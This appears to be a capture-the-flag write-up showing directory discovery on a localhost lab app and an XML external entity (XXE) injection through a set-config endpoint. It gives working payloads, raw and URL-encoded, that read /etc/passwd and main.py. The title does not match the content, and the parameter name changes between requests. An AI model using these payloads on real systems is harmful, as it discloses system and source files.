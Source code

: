 # Encrypted Pastebin - FLAG0

## 0x00 Home

![](./imgs/home.jpg)

Tried couple of different code but all show errors.

```
Code incorrect. Expected 06947342
```

## 0x01 Directory

Try scan sub directory with Burp

![](./imgs/directory.jpg)

And there is a comment in source code.

http://127.0.0.1/xxxxxxxxxx/admin

![](./imgs/admin.jpg)

## 0x02 get-config

http://127.0.0.1/xxxxxxxxxx/get-config

Looks like some config thing using XML

![](./imgs/get-config.jpg)

## 0x03 set-config

http://127.0.0.1/xxxxxxxxxx/set-config

It actually exist but may need parameter to set the XML

![](./imgs/set-config.jpg)

## 0x04 XXE

Prepare the XXE payload.

```xml
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "/etc/passwd">]><config><location>&xxe;</location></config>
```

And encode to [url format][1] 

```
%3C%3Fxml%20version%3D%221.0%22%3F%3E%3C%21DOCTYPE%20root%20%5B%3C%21ENTITY%20xxe%20SYSTEM%20%22%2Fetc%2Fpasswd%22%3E%5D%3E%3Cconfig%3E%3Clocation%3E%26xxe%3B%3C%2Flocation%3E%3C%2Fconfig%3E
```

http://127.0.0.1/xxxxxxxxxx/set-config?param=%3C%3Fxml%20version%3D%221.0%22%3F%3E%3C%21DOCTYPE%20root%20%5B%3C%21ENTITY%20xxe%20SYSTEM%20%22%2Fetc%2Fpasswd%22%3E%5D%3E%3Cconfig%3E%3Clocation%3E%26xxe%3B%3C%2Flocation%3E%3C%2Fconfig%3E

![](./imgs/param.jpg)

Successfully write in XXE and 302 redirect to admin page and read out /etc/passwd

![](./imgs/passwd.jpg)

## 0x05 main.py

```xml
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY xxe SYSTEM "main.py">]><config><location>&xxe;</location></config>
```

http://127.0.0.1/xxxxxxxxxx/set-config?data=%3C%3Fxml%20version%3D%221.0%22%3F%3E%3C%21DOCTYPE%20root%20%5B%3C%21ENTITY%20xxe%20SYSTEM%20%22main.py%22%3E%5D%3E%3Cconfig%3E%3Clocation%3E%26xxe%3B%3C%2Flocation%3E%3C%2Fconfig%3E

Execute and get the FLAG in the [main.py][2]

![](./imgs/flag.jpg)

[1]: https://www.urlencoder.org/
[2]: ./main.py
